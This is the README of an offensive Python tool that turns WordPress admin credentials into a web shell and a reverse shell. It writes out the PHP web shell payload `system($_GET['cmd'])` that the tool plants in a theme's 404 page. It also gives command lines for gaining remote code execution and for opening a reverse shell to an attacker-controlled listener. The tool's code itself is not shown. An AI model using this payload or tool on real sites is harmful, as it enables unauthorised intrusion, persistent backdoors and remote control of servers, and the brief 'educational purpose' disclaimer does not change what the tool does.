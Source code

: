 # WP-editor-shell
Python script to automaticly get a reverse shell from WP theme editor page 

## Description
This script was created to simplify the creation of a reverse shell from a Wordpress dashboard editor page. It allows the user to update the page 404 of a theme and replace the content with `<?php system($_GET["cmd"]);?>` which then allow command execution on the page. 

## Usage 
Usage to upload the PHP payload and gain RCE on the site 
```
python wp-editor-shell.py --url http://127.0.0.1/wordpress -u admin -p admin
```

Usage to get a reverse shell

To be able to get a reverse shell you first need to open a listener on your attack machine. 

```
python wp-editor-shell.py --url http://127.0.0.1/wordpress -u admin -p admin --lhost 172.0.0.1 --lport 80
```

## Help 

```
-h, --help       Display help message

-u, --username   Username to use for wordpress Dasboard

-p, --password   Password to use for wordpress Dasboard

--url            Address of the target website

--lhost          Ip address to use for the reverse shell

--lport          Local port to use for the reverse shell
```
## Disclaimer 

This script was created only for educationnal purpose. 
